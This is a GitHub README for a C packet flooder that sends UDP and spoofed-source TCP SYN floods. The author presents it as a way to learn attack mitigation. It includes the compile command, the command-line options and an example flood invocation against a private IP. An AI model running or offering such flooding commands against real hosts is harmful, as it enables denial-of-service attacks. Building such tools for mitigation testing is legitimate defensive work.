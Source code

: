 # Packet Flooder
## Description
This is an improved version of my UDP Sender [program](https://github.com/gamemann/UDP-Sender). However, this program also supports TCP SYN floods. The source IP is completely randomized/spoofed each time a packet is sent. 

## What Did I make This?
I've been learning how to mitigate TCP-related attacks recently and decided to make a TCP SYN flood tool. Since I was planning to rewrite my UDP Sender program anyways, I decided to create a program that does both UDP and TCP (SYN) floods.

## Compiling
I used GCC to compile this program. You must add `-lpthread` at the end of the command when compiling via GCC.

Here's an example:

```
gcc -g src/flood.c -o src/flood -lpthread
```

## Usage
Here's output from the `--help` flag that goes over the program's command line usage:

```
./flood --help
Usage for: ./flood:
--dev -i => Interface name to bind to.
--dst -d => Destination IP to send TCP packets to.
--port -p => Destination port (0 = random port).
--interval => Interval between sending packets in micro seconds.
--threads -t => Amount of threads to spawn (default is host's CPU count).
--verbose -v => Print how much data we sent each time.
--min => Minimum payload length.
--max => Maximum payload length.
--tcp => Send TCP packet with SYN flag set instead of UDP packet.
--help -h => Show help menu information.
```

Example:

```
./flood --dev ens18 --dst 10.50.0.4 --port 80 -t 1 --interval 100000 --tcp --min 1200 --max 1200 -v
```

## Credits
* [Christian Deacon](https://www.linkedin.com/in/christian-deacon-902042186/) - Created program.